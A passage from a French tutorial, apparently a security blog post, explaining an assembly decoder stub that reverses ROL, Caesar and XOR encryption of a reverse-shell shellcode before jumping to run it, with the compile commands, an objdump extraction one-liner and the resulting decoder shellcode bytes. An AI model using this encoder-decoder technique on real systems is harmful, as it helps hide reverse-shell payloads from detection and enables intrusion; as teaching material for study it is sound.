 La fonction `init` nous permet d'initialiser quelques variables et de récupérer l'adresse du shellcode chiffré qui a été mise sur la stack précédemment. 

Viens ensuite la fonction `router1`. Souvenez-vous, nous avions chiffré un caractère sur deux avec un ROL et une clef, puis, l'autre caractère toujours avec un ROL, mais avec une clef différente. Cette fonction va donc se charger de détecter si l'on est sur le premier ou le second caractère afin de diriger le programme vers la bonne fonction de déchiffrement.

Les fonctions `decipherROR1` et `decipherROR2` vont se charger d'effectuer un ROR avec la clef correspondante.

La fonction `manager1` va quant à elle se charger d'incrémenter nos compteurs et de détecter si l'on a atteint la fin de notre shellcode. Si tel est le cas le programme passera à la fonction `reset`, sinon, le programme retournera dans `router1` pour un nouveau tour.

La fonction `reset` ré-initialise toutes les variables à l'instar de la fonction `init`.

La fonction `router2` fonctionne comme `router1`. En effet, nous avions chiffré un caractère sur trois avec un cesar et une clef, le second caractère avait été chiffré avec un XOR et une clef différente et enfin le troisième caractère avait été chiffré avec un cesar allant dans le sens opposé du premier et encore avec une nouvelle clef. Cette fonction permet donc de détecter si l'on est sur le premier, deuxième ou troisième caractère et de diriger le programme vers la bonne fonction de déchiffrement.

Les fonctions `decipherCesarPlus` et `decipherCesarMinus` vont se charger d'effectuer le déchiffrement de cesar avec leurs clefs respectives.

De même, la fonction `decipherXOR` va se charger de déchiffrer le XOR avec la clef lui correspondant.

Enfin, arrive la fonction `manager2` qui, comme `manager1`, va se charger d'incrémenter nos compteurs et de détecter si l'on a atteint la fin de notre shellcode. Si tel est le cas le programme ira à l'adresse de notre shellcode décodé afin de l'exécuter, sinon, le programme retournera dans `router2` pour un nouveau tour.

{{< admonition warning >}}
Il est à noter que si l'on change les clefs dans le programme de chiffrement il faudra également changer les clefs dans ce programme.
{{< /admonition >}}

Nous pouvons compiler notre code :
```shell
nasm -f elf64 decipherShellcode.asm
ld decipherShellcode.o -o decipherShellcode
```

Contrairement au code assembleur de notre reverse shell, nous ne pourrons pas exécuter ce code. Ou plus précisément, nous pourrons, mais cela générera un segfault puisque nous n'avons pas notre shellcode chiffré sur la stack.

Nous pouvons donc directement récupérer le shellcode correspondant à notre programme :
```shell
for i in `objdump -D decipherShellcode | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done ; echo
```

Le résultat nous indique :
```shell
\xeb\x5c\x5e\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x06\xc0\x0c\x1e\x03\xeb\x07\xc0\x0c\x1e\x05\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xe4\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x0b\x80\xfa\x03\x74\x0c\x80\x2c\x1e\x0d\xeb\x0d\x80\x34\x1e\x07\xeb\x07\x80\x04\x1e\x12\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xd9\xff\xe6\xe8\x9f\xff\xff\xff
```
